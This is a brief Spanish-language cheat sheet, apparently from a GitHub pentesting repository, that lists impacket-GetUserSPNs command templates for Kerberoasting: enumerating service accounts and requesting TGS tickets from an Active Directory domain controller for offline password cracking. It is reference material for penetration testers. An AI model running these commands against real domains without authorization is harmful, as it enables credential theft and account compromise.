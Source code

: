 # mpacket-GetUserSPNs Cheat Sheet

#### Kerberoasting Attack
```
impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP>
```

#### Kerberoasting Attack - con usuario y contraseña que tengamos
```
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD>
```

#### Obtener TGS
```
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD> -request
```

#### Kerberoasting Attack usando una autenticación kerberos
```
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD> -k -dc-ip <DOMAIN>
```


---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)